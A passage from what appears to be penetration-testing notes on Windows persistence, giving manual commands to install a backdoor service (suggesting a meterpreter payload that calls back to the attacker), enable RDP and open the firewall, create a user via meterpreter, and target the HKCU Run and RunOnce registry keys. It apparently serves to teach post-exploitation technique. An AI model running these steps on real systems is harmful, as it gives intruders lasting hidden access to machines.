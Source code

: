 <a id=6.1.1></a>
### Persistence Through Services

As we already know how to do this via the Metasploit Framework (using the persistence_service module) we'll learn how to do it by hand.

```bash
C:\> sc.exe create [SERVICE_NAME] binpath="C:\path\to\executable"
# this backdoor file can be something like an msfvenom payload meterpreter file, or a custom C callback-home binary, which tries to
# connect to the attacker machine constantly. revshells might help you...
```

<a id=6.1.2></a>
### Persistence Through RDP

Again, we know how to do this via Metasploit, but let's learn how to do it manually.

```bash
C:\> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\> netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# this will enable RDP and configure the firewall (if enabled).
# now we can: create a user or use an existing one. thats up to you.
meterpreter > run getgui -e -u [USERNAME] -p [PASSWORD] 
# this will run the getgui depracated meterpreter script. its still useful and usable.
# it'll enable RDP, create a user and enable the firewall.
```

<a id=6.1.3></a>
### Persistence Through Registry Keys

This persistence technique is useful when we can't create services or directly add administrative registry keys. Nevertheless, we can edit
some keys for the HKCU (Current User).

The ones that we will target as a non-privileged user are the following:

- HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
- HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

Before changing anything, let's see how registry keys run at boot and their respective order.

![](juggernaut_sec_regkeys.png)
